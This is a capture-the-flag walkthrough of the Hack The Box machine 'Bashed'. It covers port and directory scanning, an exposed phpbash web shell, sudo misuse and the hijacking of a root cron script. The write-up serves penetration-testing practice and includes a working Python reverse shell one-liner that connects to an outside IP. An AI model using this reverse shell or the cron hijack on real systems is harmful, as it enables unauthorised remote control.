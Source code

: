 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy,sudo,cron]
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/118>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/9.png)

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/10.png)

I got Root!
